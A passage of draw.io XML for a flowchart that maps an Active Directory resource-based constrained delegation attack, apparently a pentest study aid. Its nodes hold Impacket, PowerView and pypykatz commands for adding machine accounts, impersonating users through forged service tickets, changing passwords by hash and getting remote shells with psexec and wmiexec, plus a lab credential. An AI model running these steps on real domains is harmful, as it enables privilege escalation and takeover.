              <mxPoint x="850" y="4980" />
              <mxPoint x="850" y="5032" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-16" value="YES" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="-mCO11fVwZeK89IVwwup-15">
          <mxGeometry x="-0.979" y="3" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-33" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="VL_DeuJodb9uclPqMyuw-132" target="-mCO11fVwZeK89IVwwup-32">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-132" value="usable computer?" style="rhombus;whiteSpace=wrap;html=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="250" y="3892" width="80" height="80" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-142" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-138" target="VL_DeuJodb9uclPqMyuw-139" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-146" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="1" source="VL_DeuJodb9uclPqMyuw-138" target="VL_DeuJodb9uclPqMyuw-143" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-28" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" edge="1" parent="1" source="VL_DeuJodb9uclPqMyuw-138" target="-mCO11fVwZeK89IVwwup-25">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-138" value="&lt;div&gt;Connect to the Target Machine&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="230" y="5574" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-139" value="&lt;div&gt;PS&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="390" y="5574" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-140" value="&lt;div&gt;PS C:\Tools&amp;gt; ls \\&amp;lt;targetname&amp;gt;.&amp;lt;fqdn&amp;gt;\c$&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="390" y="5632" width="390" height="32" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-147" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-143" target="VL_DeuJodb9uclPqMyuw-144" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-143" value="&lt;div&gt;Clear Attribute&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="230" y="5900" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-144" value="&lt;div&gt;PS&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="390" y="5900" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-145" value="&lt;div&gt;PS C:\Tools&amp;gt; Import-Module .\PowerView.ps1&lt;/div&gt;&lt;div&gt;PS C:\Tools&amp;gt; $credentials = New-Object System.Management.Automation.PSCredential &quot;INLANEFREIGHT\carole.holmes&quot;, (ConvertTo-SecureString &quot;Y3t4n0th3rP4ssw0rd&quot; -AsPlainText -Force)&lt;/div&gt;&lt;div&gt;PS C:\Tools&amp;gt; Get-DomainComputer DC01 | Set-DomainObject -Clear msDS-AllowedToActOnBehalfOfOtherIdentity -Credential $credentials -Verbose&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="390" y="5958" width="390" height="142" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-1" value="&lt;div&gt;Impacket&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="410" y="4358.5" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-2" value="&lt;div&gt;kali$ addcomputer.py -computer-name &amp;lt;computer-name&amp;gt; -computer-pass &amp;lt;pass&amp;gt; -dc-ip &amp;lt;dc-ip&amp;gt; &amp;lt;fqdn&amp;gt;/&amp;lt;user&amp;gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" vertex="1" parent="1">
          <mxGeometry x="410" y="4418" width="390" height="72" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-4" value="&lt;div&gt;Note&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="410" y="4006" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-5" value="Note: We can use BloodHound.py to enumerate the domain, searching for privileges to abuse for RBCD from Linux." style="whiteSpace=wrap;html=1;rounded=0;align=left;strokeColor=light-dark(#ff0000, #ededed);" vertex="1" parent="1">
          <mxGeometry x="410" y="4066" width="390" height="70" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-7" value="&lt;div&gt;python&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="410" y="4820" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-8" value="&lt;div&gt;&lt;div&gt;kali$ python3 rbcd.py -dc-ip &amp;lt;dc-ip&amp;gt; -t &amp;lt;named-target&amp;gt; -f &amp;lt;computer-name&amp;gt; &amp;lt;domain&amp;gt;\\&amp;lt;user&amp;gt;:&amp;lt;pass&amp;gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" vertex="1" parent="1">
          <mxGeometry x="410" y="4879.5" width="390" height="60.5" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-19" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-11" target="-mCO11fVwZeK89IVwwup-17">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-21" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;strokeColor=#FF0000;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-11" target="-mCO11fVwZeK89IVwwup-20">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-11" value="&lt;div&gt;Retrieve the Kerberos Ticket&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" vertex="1" parent="1">
          <mxGeometry x="870" y="5001.5" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-17" value="&lt;div&gt;impacket&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="1075" y="5001.5" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-18" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;kali$ getST.py -spn &amp;lt;service&amp;gt;/&amp;lt;targetname&amp;gt;.&amp;lt;fqdn&amp;gt; -impersonate &amp;lt;user-to-impersonate&amp;gt; -dc-ip &amp;lt;dc-ip&amp;gt; &amp;lt;fqdn&amp;gt;/&amp;lt;user&amp;gt;:&amp;lt;pass&amp;gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" vertex="1" parent="1">
          <mxGeometry x="1075" y="5061" width="390" height="69" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-24" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-20" target="-mCO11fVwZeK89IVwwup-22">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-27" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.75;entryY=0;entryDx=0;entryDy=0;strokeColor=#FF0000;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-20" target="VL_DeuJodb9uclPqMyuw-138">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="930" y="5520" />
              <mxPoint x="320" y="5520" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-20" value="&lt;div&gt;Add the Ticket to KRB5CCNAME&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" vertex="1" parent="1">
          <mxGeometry x="870" y="5200" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-22" value="&lt;div&gt;Linux&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="1075" y="5200" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-23" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;div&gt;kali$ export KRB5CCNAME=&amp;lt;ccache-file&amp;gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" vertex="1" parent="1">
          <mxGeometry x="1075" y="5259.5" width="390" height="50.5" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-25" value="&lt;div&gt;Impacket&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="390" y="5690" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-26" value="&lt;div&gt;kali$ psexec.py -k -no-pass &amp;lt;targetname&amp;gt;.&amp;lt;fqdn&amp;gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" vertex="1" parent="1">
          <mxGeometry x="390" y="5749.5" width="390" height="50.5" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-34" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-32" target="VL_DeuJodb9uclPqMyuw-107">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-35" value="YES" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="-mCO11fVwZeK89IVwwup-34">
          <mxGeometry x="-0.134" y="1" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-38" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#FF0000;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-32" target="-mCO11fVwZeK89IVwwup-37">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="310" y="4150" />
              <mxPoint x="900" y="4150" />
              <mxPoint x="900" y="4448" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-39" value="NO" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="-mCO11fVwZeK89IVwwup-38">
          <mxGeometry x="-0.929" y="-1" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-32" value="MachineAccountQuota &amp;gt; 0 ?" style="rhombus;whiteSpace=wrap;html=1;fontStyle=1" vertex="1" parent="1">
          <mxGeometry x="250" y="4030" width="80" height="80" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-45" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;strokeColor=#FF0000;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-37" target="-mCO11fVwZeK89IVwwup-41">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-37" value="&lt;div&gt;When MachineAccountQuota Is Set to 0&lt;/div&gt;" style="shape=label;whiteSpace=wrap;html=1;backgroundOutline=1;rounded=0;fontStyle=1" vertex="1" parent="1">
          <mxGeometry x="960" y="4418" width="160" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-46" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;dashed=1;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-41" target="-mCO11fVwZeK89IVwwup-43">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-48" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;strokeColor=#FF0000;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-41" target="-mCO11fVwZeK89IVwwup-47">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-41" value="&lt;div&gt;NT hash from the password in plain text&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" vertex="1" parent="1">
          <mxGeometry x="980" y="4550" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-43" value="&lt;div&gt;pypykatz&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="1169" y="4550" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-44" value="&lt;div&gt;kali$ pypykatz crypto nt &amp;lt;pass&amp;gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" vertex="1" parent="1">
          <mxGeometry x="1169" y="4609.5" width="390" height="40.5" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-52" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-47" target="-mCO11fVwZeK89IVwwup-50">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-54" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;strokeColor=#FF0000;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-47" target="-mCO11fVwZeK89IVwwup-53">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="1040" y="4880" />
              <mxPoint x="1590" y="4880" />
              <mxPoint x="1590" y="4500" />
              <mxPoint x="1680" y="4500" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-47" value="&lt;div&gt;Retrieve TGT&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" vertex="1" parent="1">
          <mxGeometry x="980" y="4710" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-50" value="&lt;div&gt;impacket&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="1169" y="4710" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-51" value="&lt;div&gt;kali$ getTGT.py &amp;lt;fqdn&amp;gt;/&amp;lt;user&amp;gt; -hashes :&amp;lt;nt-hash&amp;gt; -dc-ip &amp;lt;ip&amp;gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" vertex="1" parent="1">
          <mxGeometry x="1169" y="4769.5" width="390" height="70.5" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-57" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-53" target="-mCO11fVwZeK89IVwwup-55">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-59" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;strokeColor=#FF0000;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-53" target="-mCO11fVwZeK89IVwwup-58">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-53" value="&lt;div&gt;Obtain the Ticket Session Key&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" vertex="1" parent="1">
          <mxGeometry x="1620" y="4549.5" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-55" value="&lt;div&gt;impacket&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="1780" y="4549.5" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-56" value="&lt;div&gt;&lt;div&gt;kali$ describeTicket.py &amp;lt;ccache-file&amp;gt; | grep &#39;Ticket Session Key&#39;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" vertex="1" parent="1">
          <mxGeometry x="1780" y="4609" width="390" height="70.5" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-62" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-58" target="-mCO11fVwZeK89IVwwup-60">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-64" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;strokeColor=#FF0000;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-58" target="-mCO11fVwZeK89IVwwup-63">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-58" value="&lt;div&gt;Change the User&#39;s Password&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" vertex="1" parent="1">
          <mxGeometry x="1620" y="4770" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-60" value="impacket" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="1780" y="4769.5" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-61" value="&lt;div&gt;kali$ changepasswd.py &amp;lt;fqdn&amp;gt;/&amp;lt;user&amp;gt;@&amp;lt;ip&amp;gt; -hashes :&amp;lt;nt-hash&amp;gt; -newhash :&amp;lt;nt-hash-for-new-pass&amp;gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" vertex="1" parent="1">
          <mxGeometry x="1780" y="4829" width="390" height="70.5" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-67" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-63" target="-mCO11fVwZeK89IVwwup-65">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-69" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;strokeColor=#FF0000;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-63" target="-mCO11fVwZeK89IVwwup-68">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-63" value="&lt;div&gt;Request a Service Ticket&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" vertex="1" parent="1">
          <mxGeometry x="1620" y="4943.5" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-65" value="impacket" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="1780" y="4943.5" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-66" value="&lt;div&gt;kali$ KRB5CCNAME=&amp;lt;ccache-file&amp;gt;&lt;/div&gt;&lt;div&gt;&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;kali$&lt;/span&gt;&amp;nbsp;getST.py -u2u -impersonate &amp;lt;user-to-impersonate&amp;gt; -spn &amp;lt;service&amp;gt;/&amp;lt;targetname&amp;gt;.&amp;lt;fqdn&amp;gt; -no-pass &amp;lt;fqdn&amp;gt;/&amp;lt;user&amp;gt; -dc-ip &amp;lt;ip&amp;gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" vertex="1" parent="1">
          <mxGeometry x="1780" y="5003" width="390" height="70.5" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-72" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-68" target="-mCO11fVwZeK89IVwwup-70">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-68" value="&lt;div&gt;Access&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" vertex="1" parent="1">
          <mxGeometry x="1620" y="5119" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-70" value="impacket" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="1780" y="5119" width="620" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-71" value="&lt;div&gt;kali$ KRB5CCNAME=&amp;lt;ccache-file&amp;gt;&amp;nbsp;&lt;/div&gt;&lt;div&gt;&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;kali$&amp;nbsp;&lt;/span&gt;&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;wmiexec.py &amp;lt;targetname&amp;gt;.&amp;lt;fqdn&amp;gt; -k -no-pass&lt;/span&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" vertex="1" parent="1">
          <mxGeometry x="1780" y="5178.5" width="620" height="70.5" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-73" value="LINUX" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="460" y="-10" width="190" height="40" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-74" value="WINDOWS" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" vertex="1" parent="1">
          <mxGeometry x="460" y="45" width="190" height="40" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-75" value="BOTH" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#fff2cc;strokeColor=#d6b656;" vertex="1" parent="1">
          <mxGeometry x="460" y="100" width="190" height="40" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-76" value="" style="endArrow=classic;html=1;rounded=0;strokeColor=#FF0000;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="740" y="50" as="sourcePoint" />
            <mxPoint x="790" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-77" value="LINUX ONLY PATH" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="-mCO11fVwZeK89IVwwup-76">
          <mxGeometry x="-0.113" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-78" value="" style="endArrow=classic;html=1;rounded=0;strokeColor=#3333FF;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="750" y="111" as="sourcePoint" />
            <mxPoint x="800" y="61" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-79" value="WINDOWS ONLY PATH" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="-mCO11fVwZeK89IVwwup-78">
          <mxGeometry x="-0.113" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-80" value="" style="endArrow=classic;html=1;rounded=0;strokeColor=#FF8000;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="900" y="80" as="sourcePoint" />
            <mxPoint x="950" y="30" as="targetPoint" />
          </mxGeometry>
